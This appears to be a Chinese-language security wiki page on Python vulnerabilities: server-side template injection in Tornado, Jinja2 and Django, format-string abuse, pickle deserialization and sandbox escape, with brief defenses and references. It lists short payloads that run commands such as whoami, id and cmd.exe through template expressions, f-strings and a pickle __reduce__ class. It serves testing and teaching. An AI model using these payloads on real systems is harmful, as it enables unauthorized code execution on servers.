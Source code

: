 Python漏洞
================================

模版注入
--------------------------------

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法：

- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试例子

- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[2].__subclasses__()}}``
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标：

- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权


格式化字符串
--------------------------------


``"welcome {user}".format(user=user)``
``user = {0.__class__.__init__.__globals__}``

python3 -c "f'''{__import__('os').system('id')}'''"

反序列化
--------------------------------

pickle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    >>> class A(object):
    ...     a = 1
    ...     b = 2
    ...     def __reduce__(self):
    ...         return (subprocess.Popen, (('cmd.exe',),))
    ...
    >>> cPickle.dumps(A())
    "csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n."

PyYAML反序列化
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


沙箱
--------------------------------

绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 最简单的思路是在已有的模块中import，如果那个模块中已经 import 可以利用的模块就可以使用了

- 在父类中寻找可用的模块，最常见payload都是 ``().__class__.__bases__[0].__subclasses__()``

- 有些网站没有过滤 pickle 模块，可以使用 pickle 实现任意代码执行，生成 payload 可以使用 ``https://gist.github.com/freddyb/3360650``

- 有的沙箱把相关的模块代码都被删除了，则可以使用libc中的函数，Python 中调用一般可以使用 ctypes 或者 cffi。


防御
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Python官方给出了一些防御的建议

- 使用Jython并尝试使用Java平台来锁定程序的权限
- 使用fakeroot来避免
- 使用一些rootjail的技术


参考链接
--------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `Python pickle反序列化 <http://www.91ri.org/9576.html>`_
- `Python 沙箱通用绕过 <https://www.anquanke.com/post/id/86366>`_
- `Python 沙箱 官方wiki <https://wiki.python.org/moin/SandboxedPython>`_